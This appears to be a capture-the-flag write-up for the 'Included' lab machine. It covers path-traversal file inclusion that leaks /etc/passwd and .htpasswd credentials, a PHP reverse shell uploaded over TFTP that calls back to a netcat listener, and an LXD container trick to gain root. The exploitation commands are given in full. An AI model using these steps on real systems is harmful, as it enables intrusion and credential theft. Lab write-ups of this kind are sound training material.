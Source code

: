 # Included
## User Flag
When starting a box, it's always a good idea to run nmap to enumerate services on the target. Running `nmap -sV -sC 10.129.230.112`
shows us the service versions and might point us toward known vulnerabilities.

![Nmap results TCP](images/1image.png)

Port 80 is open and serving HTTP, so that’s a natural place to begin. Visiting the site takes us to: `http://10.129.230.112/?file=home.php#`

![Webpage](images/2image.png)

The `file` query parameter immediately stands out. This hints at a possible Local File Inclusion (LFI) or Path Traversal vulnerability. We can also use `dirbuster` to see if there are any other accessible files or directories.

Running DirBuster with the URL `http://10.129.230.112/?file=home.php`
returns a few interesting results:

![Dirbuster results](images/3image.png)

The `fonts` and `images` folders are accessible, while others return 403s or 300s. One item that stands out is `.htpasswd`. These files often contain usernames and hashed passwords. Since we’re dealing with Apache, these are likely located in `/var/www/html`.

We can test for LFI by trying to access `/etc/passwd`. Since we're probably in `/var/www/html`, navigating to `http://10.129.230.112/?file=../../../../etc/passwd` does the trick. We can see the contents of the file, and two things stand out at the bottom:

![/etc/passwd content](images/4image.png)

There's a user named `mike`

`tftp` is mentioned as a service

Now let’s try accessing the .htpasswd file directly by navigating to `http://10.129.230.112/?file=../../../../var/www/html/.htpasswd`:

![.htapasswd content](images/5image.png)

This gives us credentials. The file contains a username (`mike`) and a password (`Sheffield19`). That confirms `mike` is our target user.

TFTP didn’t show up in the initial nmap scan since it's a UDP service. Let’s rerun the scan with UDP via `nmap -sV -sU 10.129.230.112`:

![nmap results UDP](images/6image.png)

This time, we see TFTP running on port 69. TFTP is an insecure file transfer protocol, but we might be able to upload a reverse shell using it.

From our Kali box, we head to `/usr/share/webshells/php` and grab `php-reverse-shell.php`. Update it with our `tun0` IP and a port (I used 4444). 

![Reverse Shell Edit](images/7image.png)

Then, upload it via TFTP:

![Reverse shell upload](images/8image.png)

TFTP uploads default to the `/var/lib/tftpboot/` directory, so the file ends up at `/var/lib/tftpboot/php-reverse-shell.php`

To create a reverse shell, we need to set up a listener (`nc -lnvp 4444`) and then trigger the shell by navigating to `http://10.129.230.112/?file=../../../../var/lib/tftpboot/php-reverse-shell.php`. This gives us a shell. To upgrade it, we can run `script /dev/null -c bash`. 

We’re in as www-data, but we already know mike’s credentials. We can switch users by running `su mike` and then inputting the password as `Sheffield19`.
In `/home/mike`, we grab `user.txt`.

![user.txt location](images/9image.png)

## Root Flag
Now that we’re mike, we check for privilege escalation vectors. Running `id`
reveals that mike is part of the `lxd` group.

![mike id results](images/10image.png)

A quick Google search for “LXD privilege escalation” points us to:

* [initstring/lxd_root](https://github.com/initstring/lxd_root)

* [HackTricks guide](https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation.html#lxdlxc-group---privilege-escalation) 

The HackTricks guide shows us how to do the exploit step-by-step. First, we download the necessary files to build the LXD container image from [Canonical](https://images.lxd.canonical.com/). According to the the guide, we just need `lxd.tar.xz` and `rootfs.squashfs`. 

Upload both files to the target (using `tftp`), then follow these steps:

```
lxc image import lxd.tar.xz rootfs.squashfs --alias alpine

# Confirm it's imported
lxc image list

# Create a privileged container
lxc init alpine privesc -c security.privileged=true

# Attach the root filesystem
lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true

# Start and enter the container
lxc start privesc
lxc exec privesc /bin/sh
```

Once inside, we are in `/mnt/root`. If we navigate to `/mnt/root/root`, we now have access to root.txt.